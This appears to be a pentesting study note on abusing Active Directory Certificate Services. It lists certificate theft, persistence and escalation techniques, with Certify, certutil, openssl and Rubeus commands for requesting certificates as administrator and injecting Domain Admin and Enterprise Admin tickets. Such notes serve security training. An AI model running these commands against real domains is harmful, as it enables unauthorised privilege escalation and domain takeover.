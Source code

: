 ```yaml
---
tags:
  - privesc
cssclasses:
  - Certify
  - Rubeus
  - Across-Trust
---
```

#### Introduction
- **Active Directory Certificate Services** (AD CS) enables use of Microsoft's own Public Key Infrastructure (PKI) in an active directory forest.
- AD CS helps in authenticating users and machines, encrypting and signing documents, filesystems, emails and more.
- A good attack vector since certificates **can** survive credential rotation, it also proves as a good persistence mechanism.
#### Elements of AD CS
- CA - The **certification authority** that issues certificates. The server with AD CS role (DC or separate) is the CA
- Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
- Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA. It is typically created by an Administrator.
- CSR - **Certificate Signing Request** made by a client to the CA to request a signed certificate.
- Certificate Template - Defines settings for a certificate. Contains information like enrollment permissions, EKUs, expiry etc.
- EKU OIDs - **Extended Key Usages** Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

![[AD CS.svg]]
#### Abuse
- Extract user and machine certificates
- Use certificates to retrieve NTLM hash
- User and machine level persistence
- Escalation to Domain Admin and Enterprise Admin
- Domain Persistence

| Abuse Type            | 1                                                         | 2                                                   | 3                                                                                        | 4                                        | 5                                                                | 6                                                                         | 7                                                                                               | 8                                       |
| --------------------- | --------------------------------------------------------- | --------------------------------------------------- | ---------------------------------------------------------------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- | ------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------- | --------------------------------------- |
| Stealing Certificates | Export certs with private keys using Windows' crypto APIs | Extracting user certs with private keys using DPAPI | Extracting machine certs with private keys using DPAPI                                   | Steal certificates from files and stores | Use Kerberos PKINIT to get NTLM hash                             |                                                                           |                                                                                                 |                                         |
| Persistence           | User persistence by requesting new certs                  | Machine persistence by requesting new certs         | User/Machine persistence by renewing certs                                               |                                          |                                                                  |                                                                           |                                                                                                 |                                         |
| Escalation            | Enrolee can request cert for ANY user                     | Any purpose or no EKU (potentially dangerous)       | Request an enrollment agent certificate and use it to request cert on behalf of ANY user | Overly permissive ACLs on templates      | Poor access control on CA server, CA server computer object etc. | EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA - Request certs for ANY user | Poor access control on roles on CA authority like "CA Administration" and "Certificate Manager" | NTLM relay to HTTP enrollment endpoints |
| Domain Persistence    | Forge certificates with stolen CA private keys            | Malicious root/interm ediate CAs                    | Backdoor CA Server, CA server computer object etc.                                       |                                          |                                                                  |                                                                           |                                                                                                 |                                         |

```batch title:"Get all certificate templates"
certutil -v -template > templates.txt
```

```batch title:"Enumerate AD CS in the target forest"
Certify.exe cas
```

```batch title:"Enumerate the templates"
Certify.exe find
```

```batch title:"Enumerate templates where the enrollee can supply subject names"
Certify.exe find /enrolleeSuppliesSubject
```

```batch title:"Enumerate vulnerable templates"
Certify.exe find /vulnerable
```

#### Escalation to Domain Admin

```batch title:"Request a certificate for Certificate Request Agent from a template"
Certify.exe request /ca:computer-name-fqdn\ffff /template:template-name
```

```batch title:"Provide alternative subject name if ENROLLEE_SUPPLIES_SUBJECT"
Certify.exe request /ca:computer-name-fqdn\ffff /template:template-name /altname:administrator
```

```batch title:"Convert .pem to .pfx"
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```batch title:"Convert from cert.pem to pfx and use it to request a certificate on behalf of DA using that template"
Certify.exe request /ca:compute-name-fqdn\ffff /template:template-name /onbehalfof:username-fqdn /enrollcert:certificate.pfx /enrollcertpw:password
```

```batch title:"Using certificate.pfx, request DA TGT and inject it"
Rubeus.exe asktgt /user:administrator /certificate:certificate.pfx /password:password /ptt
```

#### Escalation to Enterprise Admin

```batch title:"Convert from cert.pem to pfx and use it to request a certificate on behalf of EA using a template"
Certify.exe request /ca:certificate-authority-computer-name\ffff /template:template-name /onbehalfof:forest.name\administrator /enrollcert:certificate.pfx /enrollcertpw:password
```

```batch title:"Request EA TGT and inject it"
Rubeus.exe asktgt /user:forest.name\administrator /certificate:certificate.pfx /dc:other-forest-domain-controller-fqdn /password:password /ptt
```



